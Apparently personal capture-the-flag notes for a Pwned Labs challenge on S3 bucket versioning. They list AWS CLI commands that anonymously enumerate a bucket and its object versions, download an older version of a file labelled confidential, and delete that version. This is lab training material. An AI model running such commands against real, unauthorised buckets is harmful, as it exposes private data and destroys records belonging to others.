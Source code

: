  Challege Link: https://pwnedlabs.io/labs/access-secrets-with-s3-bucket-versioning
2. Challenge Name: Access Secrets with S3 Bucket Versioning
3. Some useful commands during the CTF challenge: 
	1. aws s3 ls s3://huge-logistics-dashboard --recursive --no-sign-request
	2. aws s3api list-object-versions --bucket huge-logistics-dashboard --query "Versions[?VersionId!='null']" --no-sign-request
	3. aws s3api get-object --bucket huge-logistics-dashboard --key "private/Business Health - Board Meeting (Confidential).xlsx" --version-id "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8" test.xlsx --no-sign-request
	4. aws s3api delete-object --bucket huge-logistics-dashboard --key "private/Business Health - Board Meeting (Confidential).xlsx" --version-id "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8" 
